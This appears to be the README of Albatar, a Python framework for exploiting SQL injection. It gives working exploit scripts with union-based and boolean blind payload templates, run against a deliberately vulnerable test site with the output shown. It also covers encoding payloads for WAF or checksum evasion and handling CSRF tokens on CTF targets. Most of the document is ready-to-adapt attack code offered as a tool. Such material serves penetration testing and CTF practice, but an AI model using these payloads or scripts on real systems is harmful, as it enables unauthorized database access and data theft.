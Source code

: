 I wrote Albatar to have a neat and tidy tool to exploit SQL injection vulnerabilities.

Unlike [sqlmap](http://sqlmap.org/), Albatar will not detect SQL injection vulnerabilities, it is primarily designed to help exploit not-so-straightforward injections where sqlmap would need tweaking and patching to work.

Albatar is a framework in Python. As a result, you need to write some Python code to be able to exploit the SQLI.
Then simply invoke your script by passing sqlmap-like command line options (like --dbs, --banner etc.) to retrieve data from the database.

Currently, Albatar supports MySQL, MSSQL, PostgreSQL and Oracle with the Union, Error, Boolean and Time techniques.

## Install

```
$ git clone https://github.com/lanjelot/albatar && cd albatar
$ docker build -t albatar .
$ docker run --rm -it -v $(pwd):/opt/albatar --add-host=host.docker.internal:host-gateway albatar poc.py -h
```

## Examples

* Simple union-based SQLI (MySQL)

Let's use Albatar to exploit a textbook union-based SQLI at http://testphp.vulnweb.com/artists.php?artist=1. Clone the repository, and create the below script:
```python
from albatar import *
import re

PROXIES = {} #'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
HEADERS = ['User-Agent: Mozilla/5.0']

def extract_results(headers, body, time):
  return re.findall(':ABC:(.+?):ABC:', body, re.S)

def mysql_union():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/artists.php?artist=${injection}',
      method = 'GET',
      response_processor = extract_results,
      )

  template = '-1 union all select null,null,concat(0x3a4142433a,X,0x3a4142433a) from ${query}-- '

  return Method_union(make_requester, template)

sqli = MySQL_Inband(mysql_union())

for r in sqli.exploit():
  print(r)
```

Then execute the script to exploit the SQLI:
```
$ python3 testphp-union.py -D acuart --tables
15:41:49 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2020-04-13 15:41 AEST
15:41:49 albatar - Executing: ('(SELECT COUNT(*) X FROM information_schema.tables WHERE table_schema="acuart")a', '(SELECT table_name X FROM information_schema.tables WHERE table_schema="acuart" LIMIT ${row_pos},${row_count})a')
15:41:50 albatar - count: 8
artists
carts
categ
featured
guestbook
pictures
products
users
15:41:56 albatar - Time: 0h 0m 6s
```

* Simple boolean-based SQLI (MySQL)

Here's how to exploit a boolean-based SQLI at http://testphp.vulnweb.com/listproducts.php?cat=1.
```python
from albatar import *

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  return 'Lorem ipsum dolor sit amet' in body

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/listproducts.php?cat=${injection}',
      method = 'GET',
      response_processor = test_state_grep,
      )

  template = '1 and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask}'

  return Method_bitwise(make_requester, template, confirm_char=True)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print(r)
```

And execute:
```
$ python3 testphp-boolean.py -b
15:43:18 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2020-04-13 15:43 AEST
15:43:18 albatar - Executing: 'SELECT VERSION()'
5.1.73-0ubuntu0.10.04.1
15:43:45 albatar - Time: 0h 0m 27s
```

* Encoding / WAF evasion

If you need to encode your payload to meet specific requirements, simply code a function to mangle the payload in every request.
The web task [luhn-300](https://github.com/ctfs/write-ups-2016/tree/master/nullcon-hackim-2016/web/luhn-300) from Hackim CTF 2016 was a good example to showcase this, where every request had to have a valid Luhn checksum.
```python
from albatar import *
from baluhn import generate

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  return 'Your CC has been compromised' in body

def add_luhn(s):
  digits = filter(lambda c: c.isdigit(), s)

  # our payload must have an even number of digits otherwise the serve computes
  # a different checksum than us
  if len(digits) % 2 == 0:
    s += '0'
    digits += '0'

  return s + generate(''.join(digits))

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://52.91.163.151/',
      body = 'cc=4111111111111111${injection}',
      method = 'POST',
      response_processor = test_state_grep,
      tamper_payload = add_luhn,
      )

  template = "' and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask} -- "

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

* CSRF tokens

If you need to do anything before or after submitting the SQLI payload, simply extend the Requester class. For example, if you need to provide a CSRF token, like with the web task [hackme-400](https://github.com/ctfs/write-ups-2016/tree/master/su-ctf-2016/web/hackme-400) from SU CTF 2016, write something like this:
```python
...
class Requester_CSRF(Requester_HTTP_requests):

  def test(self, payload):
    response = self.session.get('http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php')
    token = re.search("name='user_token' value='([^']+)'", response.text).group(1)
    self.http_opts[2] = self.http_opts[2].replace('_CSRF_', token)

    return super(Requester_CSRF, self).test(payload)

def mysql_union():

  def make_requester():
    return Requester_CSRF(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php',
      body = 'username=${injection}&password=asdf&Login=Login&user_token=_CSRF_',
      method = 'POST',
      response_processor = extract_results,
      )

  template = "a' union select concat(0x3a4142433a,X,0x3a4142433a),null,null,null from ${query} #"

  return Method_union(make_requester, template, pager=10)
```

You could even write a brand new Requester class to exploit a SQLI that is not in a web application, but in a command line application for example.

* More

Find more examples in [demo.py](demo.py).
